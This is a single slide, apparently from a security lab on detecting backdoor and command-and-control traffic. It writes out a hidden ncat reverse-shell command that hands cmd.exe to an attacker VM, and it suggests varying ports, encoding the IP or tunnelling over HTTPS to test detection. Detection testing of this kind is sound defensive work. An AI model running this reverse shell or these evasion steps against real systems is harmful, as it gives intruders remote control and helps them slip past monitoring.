

# Backdoor / Command-and-Control – Experimental Steps
 Prepare the Tool
 Ensure ncat.exe is present (download via winget or curl).
1
 Launch Reverse Shell
Hidden execution:
 start /min cmd /c "ncat 172.20.10.15 12345 -e cmd.exe"
2
Verify C2 Channel
 Attacker VM should receive an interactive shell on port 12345.
3
Monitor Defences
Watch Defender / EDR network alerts, Sysmon Event 3 (NetworkConnect).
4
Iterate for Detection
Vary ports, encode IP, or tunnel over HTTPS until security stack triggers.
5
11/05/2025
12